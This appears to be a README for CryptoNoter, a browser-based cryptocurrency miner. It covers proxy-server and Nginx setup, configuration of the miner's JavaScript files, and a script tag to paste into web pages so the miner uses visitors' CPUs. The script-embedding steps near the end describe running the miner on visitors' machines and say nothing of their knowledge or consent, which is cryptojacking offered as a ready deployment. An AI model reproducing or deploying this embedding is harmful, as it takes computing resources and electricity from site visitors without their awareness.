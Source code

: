 CryptoNoter In-Browser Javascript Web Miner===========================================CryptoNoter Web Miner supports mining for BLOC. This is the code that runs on https://bloc-mining.com/## Info* folder `haven_web_hash` is the C source code of the webminer* folder `proxy-server` is the NodeJs source code for the proxy server script## Requirements* NodeJs (tested with 8.9.4)* NodeJs Forever package (for high availability proxy server)* Nginx* Ubuntu OS (tested with 16.04.3)* SSL support for domain (optional). Use https://certbot.eff.org/## ImportantThis is a Nginx Reverse Proxy server setup, YOU NEED TO ADD THE FOLLOWING TO YOUR NGINX.CONF file under the domain. Without the following configuration, it will not work.```html   location /proxy {    	add_header 'Access-Control-Allow-Origin' * always;  	proxy_pass http://localhost:7777;        proxy_http_version 1.1;        proxy_set_header Upgrade $http_upgrade;        proxy_set_header Connection "upgrade";      }```## Usage`/srv/CryptoNoter` refers to `haven_web_hash` folder* Run CryptoNoter server.js script```bashforever start /srv/CryptoNoter/server.js```* Make sure CryptoNoter server.js script is running on the server by using the command `forever list````bashinfo:    Forever processes runningdata:        uid  command       script                     forever pid  id logfile                 uptimedata:    [0] tX4L /usr/bin/node /srv/CryptoNoter/server.js 7379    7385    /root/.forever/tX4L.log 0:0:59:11.96```* Make sure you have uploaded the `web` folder to your domain public_html or domain root. Ensure you can access https://YOUR_DOMAIN_NAME/demo.html* Change the settings for these files: worker.js, processor.js & lib/cryptonight-asmjs.min.js<br />Replace %CryptoNoter_domain% with your DOMAIN_NAME in the 3 files. Including the following codes:```htmlself.CryptoNoter = self.CryptoNoter || {};self.CryptoNoter.CONFIG = {    LIB_URL: "https://%CryptoNoter_domain%/lib/",    WEBSOCKET_SHARDS: [["wss://%CryptoNoter_domain%/proxy"]],    CAPTCHA_URL: "https://%CryptoNoter_domain%/captcha/",    MINER_URL: "https://%CryptoNoter_domain%/media/miner.html"};```* Add the following javascript before the `</head>` tag onto webpages that you want the miner to run on. Remember to replace www.cryptonoter.com with your domain name. Else, you will be mining for my wallet```html<script src="https://www.cryptonoter.com/processor.js"></script><script>    var miner = new CryptoNoter.User('CryptoNoter').start();</script>```* Done! You can now start mining using your visitors' CPU resources by adding the above tag to any of your websites.Here are some basic configuration for the parameters:```html<script src="https://www.cryptonoter.com/processor.js"></script><script>	var addr = 'CryptoNoter';	var miner = new CryptoNoter.User(addr, {        autoThreads: true,	throttle: 0.8	});	miner.start();</script>```## Credits* the `proxy-server` was originally available here https://github.com/cryptonoter/CryptoNoter.git (now defunct)* the `haven_web_hash` was originally taken from monero web miner and modified by [fireice](https://github.com/fireice-uk)